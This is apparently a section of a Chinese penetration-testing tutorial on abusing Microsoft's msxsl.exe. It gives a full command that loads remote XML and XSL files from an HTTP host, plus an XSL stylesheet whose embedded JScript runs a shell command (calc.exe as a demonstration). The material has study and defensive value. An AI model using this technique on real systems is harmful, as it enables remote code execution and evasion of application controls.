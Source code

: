 

**14、MSXSL.EXE**

msxsl.exe是微软用于命令行下处理XSL的一个程序，所以通过他，我们可以执行JavaScript进而执行系统命令。

下载地址为：<https://www.microsoft.com/en-us/download/details.aspx?id=21714>

msxsl.exe 需要接受两个文件，XML及XSL文件，可以远程加载，具体方式如下：

```
msxsl http://192.168.28.128/scripts/demo.xml http://192.168.28.128/scripts/exec.xsl
```

demo.xml

```
<?xml version="1.0"?>
<?xml-stylesheet type="text/xsl" href="exec.xsl" ?>
<customers>
<customer>
<name>Microsoft</name>
</customer>
</customers>
```

exec.xsl

```
<?xml version='1.0'?>
<xsl:stylesheet version="1.0"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:msxsl="urn:schemas-microsoft-com:xslt"
xmlns:user="http://mycompany.com/mynamespace">
  
<msxsl:script language="JScript" implements-prefix="user">
   function xml(nodelist) {
var r = new ActiveXObject("WScript.Shell").Run("cmd /c calc.exe");
   return nodelist.nextNode().xml;
  
   }
</msxsl:script>
<xsl:template match="/">
   <xsl:value-of select="user:xml(.)"/>
</xsl:template>
</xsl:stylesheet>
```



![](./image/20200413-14.png)
